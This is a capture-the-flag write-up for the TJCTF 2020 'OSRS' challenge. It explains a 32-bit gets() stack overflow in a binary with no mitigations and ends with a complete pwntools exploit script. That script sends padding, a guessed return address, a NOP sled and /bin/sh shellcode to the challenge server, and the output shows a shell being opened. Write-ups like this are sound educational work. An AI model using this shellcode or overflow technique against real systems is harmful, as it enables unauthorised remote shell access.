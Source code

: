 # TJCTF 2020

## OSRS

> 50
>
> My friend keeps talking about Old School RuneScape. He says he made a [service](osrs) to tell you about trees.
>
> I don't know what any of this means but this system sure looks old! It has like zero security features enabled...
> 
> `nc p1.tjctf.org 8006`
>
> Written by  KyleForkBomb

Tags: _pwn_ _x86_ _bof_ _remote-shell_ _gets_ _shellcode_ _nop-sled_


## Summary

No mitigations, 32-bit stack overflow, NOP sled, shellcode.

Retro.


## Analysis

### Checksec

```
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

No mitigations.  Choose your own adventure.

    
### Decompile with Ghidra

![](get_tree.png)

Line 10, `gets` vulnerability.  `local_110` is large enough for shellcode.  

Line 14, leaks a stack address.  Although the challenge server _has like zero security features enabled..._, the location of the stack may change:

```
I don't have the tree -9332 :(
I don't have the tree -9204 :(
I don't have the tree -9188 :(
I don't have the tree -9220 :(
I don't have the tree -9156 :(
```

However, the general vicinity does not change much (remotely).

`local_110` is `0x110` bytes above the return address:

```
             int               EAX:4              <RETURN>
             undefined4        Stack[-0x10]:4     local_10
             undefined1        Stack[-0x110]:1    local_110                               
```

We just need to write out `0x110` bytes, the estimated location of the return address (+4 for the next stack line), a NOP sled, some shellcode, and cross our fingers.


## Exploit

```python
#!/usr/bin/python3

from pwn import *

#p = process('./osrs')
p = remote('p1.tjctf.org', 8006)
buf = 0xffffdc2b # -9173
ret = buf + 0x110

#http://shell-storm.org/shellcode/files/shellcode-851.php
shellcode = b'\x31\xc9\xf7\xe9\x51\x04\x0b\xeb\x08\x5e\x87\xe6\x99\x87\xdc\xcd\x80\xe8\xf3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x00'

payload  = 0x110 * b'A'
payload += p32(ret + 4)
payload += 100 * b'\x90'
payload += shellcode

p.recvuntil('Enter a tree type:')
p.sendline(payload)

p.interactive()
```

Output:

```
# ./exploit.py
[+] Opening connection to p1.tjctf.org on port 8006: Done
[*] Switching to interactive mode

I don't have the tree -9188 :(
$ cat flag.txt
tjctf{tr33_c0de_in_my_she115}
```
